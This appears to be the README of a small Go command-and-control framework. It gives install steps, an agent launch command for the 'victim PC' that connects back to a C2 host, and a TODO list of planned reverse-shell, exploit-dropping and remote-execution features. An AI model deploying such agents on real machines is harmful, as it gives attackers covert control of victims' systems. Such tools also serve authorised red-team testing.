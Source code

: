 

# Go-C2 v0.1

## What is this? 
This is a fairly small tool I wrote that is basically a C2 and an Agent for that C2, additionally the Agent can act as a proxy server when needed.
*Fair warning, the proxy doesn't exactly work that well so take that into account*

## Why? 
Because I was annoyed that metasploit's meterpreters don't have a port scanning option so I implemented one myself


## Features:
* C2 client
* Agent

## Installing:
```sh
git clone https://github.com/mrLochness350/Go-C2.git
cd Go-C2
chmod +x install.sh
./install.sh
```
# Usage:

**On Victim PC**
```sh
$ ./Agent_linux_amd64 -c <C2 Address> -p <C2 Port>
```

**On Attacker PC**
```sh
$ ./C2_linux_amd64 -c <Agent Address> -p <Agent Port>
```


# TODO:

### General:
* Encrypt C2/Agent traffic
* Add 2-way authentication to avoid snooping

### Agent
* Fix proxy problems
* Add extra verbosity
* Add background option
* Make the connection a reverse shell
* Add option to drop into shell and not only execute code via the `shell` argument
* Add option to host the C2 from the Agent as a pivot-point

### C2
* Add multiple host listeners
* Add option to drop Agent via exploits
* Make the cli more interactive
* Execute commands on an Agent from the cli 
* Add Payload Compilation code
